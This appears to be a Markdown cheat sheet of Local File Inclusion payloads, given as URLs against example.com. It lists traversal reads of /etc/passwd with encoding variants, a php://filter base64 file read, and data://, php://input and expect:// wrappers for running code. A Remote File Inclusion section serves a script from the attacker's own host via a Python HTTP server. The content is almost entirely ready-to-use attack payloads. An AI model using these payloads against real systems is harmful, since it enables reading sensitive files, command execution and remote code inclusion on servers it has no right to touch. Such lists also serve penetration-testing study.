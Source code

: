 # Local File Inclusion Cheat Sheet

## Basic

### Absolute Path

> http://example.com/query?var=/etc/passwd

### Directory Traversal

> http://example.com/query?var=../../../../etc/passwd

> http://example.com/query?var=....//....//....//....//etc/passwd

> http://example.com/query?var=./var/../../../etc/passwd

> http://example.com/query?var=..%2F..%2F..%2F..%2Fetc%2Fpasswd

## Filter

> http://example.com/query?var=php://filter/read=convert.base64-encode/ressource=\<FILE\>

## Wrappers

### data

> http://example.com/query?var=data://text/plain;base64,\<URL\_BASE64\_ENCODED\_SCRIPT\>

### input

Need allow\_url\_include<br>
Give the script as POST data<br>

> http://example.com/query?var=php://input

### Expect

Need expect extension and allow\_url\_include<br>

> http://example.com/query?var=expect://id

## Remote File Inclusion

> python3 -m http.server \<LISTENING\_PORT\>
> http://example.com/query?var=http://\<OUR\_IP\>:\<LISTENING\_PORT\>/\<SCRIPT\>

Same with **FTP**<br>



